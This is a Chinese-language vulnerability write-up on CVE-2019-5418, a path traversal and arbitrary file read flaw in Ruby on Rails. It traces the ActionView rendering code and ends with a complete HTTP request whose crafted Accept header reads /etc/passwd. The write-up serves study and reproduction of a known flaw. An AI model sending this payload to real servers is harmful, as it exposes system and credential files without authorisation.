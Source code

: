 （CVE-2019-5418）Ruby on Rails 路径穿越与任意文件读取漏洞
=========================================================

一、漏洞简介
------------

在控制器中通过`render file`形式来渲染应用之外的视图，且会根据用户传入的Accept头来确定文件具体位置。我们通过传入`Accept: ../../../../../../../../etc/passwd{{`头来构成构造路径穿越漏洞，读取任意文件。

二、漏洞影响
------------

Ruby on Rails \< 6.0.0.beta3Ruby on Rails \< 5.2.2.1Ruby on Rails \< 5.1.6.2Ruby on Rails \< 5.0.7.2

三、复现过程
------------

### 漏洞分析

在控制器中通过`render file`形式来渲染应用之外的视图，因此在
actionview-5.2.1/lib/action\_view/renderer/template\_renderer.rb:22
中会根据 `options.key?(:file)`，调用`find_file`来寻找视图。

    module ActionView
      class TemplateRenderer < AbstractRenderer #:nodoc:
        # Determine the template to be rendered using the given options.
          def determine_template(options)
            keys = options.has_key?(:locals) ? options[:locals].keys : []
            if options.key?(:body)
              ...
            elsif options.key?(:file)
              with_fallbacks { find_file(options[:file], nil, false, keys, @details) }
            ...
          end
    end

`find_file`代码如下：

    def find_file(name, prefixes = [], partial = false, keys = [], options = {})
        @view_paths.find_file(*args_for_lookup(name, prefixes, partial, keys, options))
    end

继续跟入`args_for_lookup`函数，用于生成用于查找文件的参数，当其最终返回时会把payload保存在`details[formats]`中：![1.jpg](./resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId25.jpg)

此后回到`@view_paths.find_file`并跟入会进入
actionview-5.2.1/lib/action\_view/path\_set.rb：

    class PathSet #:nodoc:
        def find_file(path, prefixes = [], *args)
          _find_all(path, prefixes, args, true).first || raise(MissingTemplate.new(self, path, prefixes, *args))
        end
        private
        # 注，这里的 args 即前面args_for_lookup生成的details
            def _find_all(path, prefixes, args, outside_app)
                prefixes = [prefixes] if String === prefixes
                prefixes.each do |prefix|
                paths.each do |resolver|
                    if outside_app
                    templates = resolver.find_all_anywhere(path, prefix, *args)
                    else
                    templates = resolver.find_all(path, prefix, *args)
                    end
                    return templates unless templates.empty?
                end
                end
                []
            end

由于要渲染的视图在应用之外，因此跟入`find_all_anywhere`

    def find_all_anywhere(name, prefix, partial = false, details = {}, key = nil, locals = [])
        cached(key, [name, prefix, partial], details, locals) do
        find_templates(name, prefix, partial, details, true)
        end
    end

跳过`cached`部分，跟入`find_templates`，这里正式根据条件来查找要渲染的模板：

    # An abstract class that implements a Resolver with path semantics.
    class PathResolver < Resolver #:nodoc:
        EXTENSIONS = { locale: ".", formats: ".", variants: "+", handlers: "." }
        DEFAULT_PATTERN = ":prefix/:action{.:locale,}{.:formats,}{+:variants,}{.:handlers,}"

        ...

        private
            def find_templates(name, prefix, partial, details, outside_app_allowed = false)
                path = Path.build(name, prefix, partial)
                # 注意 details 与 details[:formats] 的传入
                query(path, details, details[:formats], outside_app_allowed)
            end

            def query(path, details, formats, outside_app_allowed)
                query = build_query(path, details)
                template_paths = find_template_paths(query)
                ...
                end
            end

build\_query后如下：![2.jpg](./resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId26.jpg)

利用`../`与前缀组合造成路径穿越，利用最后的`{{`完成闭合，经过File.expand\_path解析后组成的query如下:

    /etc/passwd{{},}{+{},}{.{raw,erb,html,builder,ruby,coffee,jbuilder},}

最后`/etc/passwd`被当成模板文件进行渲染，最后造成了任意文件读取。

### 漏洞复线

访问http://www.0-sec.org:3000/robots可见，正常的robots.txt文件被读取出来。

利用漏洞，发送如下数据包，读取`/etc/passwd`：

    GET /robots HTTP/1.1
    Host: www.0-sec.org:3000
    Accept-Encoding: gzip, deflate
    Accept: ../../../../../../../../etc/passwd{{
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close

![1.png](./resource/(CVE-2019-5418)RubyonRails路径穿越与任意文件读取漏洞/media/rId28.png)
